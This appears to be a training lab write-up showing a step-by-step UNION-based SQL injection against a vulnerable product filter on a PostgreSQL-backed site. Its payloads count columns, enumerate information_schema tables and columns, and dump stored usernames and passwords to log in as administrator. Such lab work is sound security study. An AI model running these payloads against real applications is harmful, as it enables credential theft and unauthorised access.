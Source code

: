 Lab #9 - SQL injection attack, listing the database contents on non Oracle databases

product category filter - SQLi vulnerable

End Goals:

- Determine the table that contains usernames and passwords
- Determine the relevant columns
- Output the contents of the table
- Login as the administrator user

Analysis:

1. Find the no. of columns
   ' order by 3--
   columns = 3-1 = 2

2. Find the columns with datatype 'string'
   ' union select 'a','a'--
   both columns are text/string

3. Find the version of the database
   ' union select version(),null--
   Postgresql Database

4. List the table names of the database
   ' UNION SELECT table_name,null FROM information_schema.tables--
   users_bznnwm

5. List the columns of desired table(users_bznnwm)
   ' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users_bznnwm'--
   columns - username_yeyqiq, password_kwgtwn

6. List the contents of desired table(users_bznnwm)
   ' union select username_yeyqiq, password_kwgtwn from users_bznnwm--
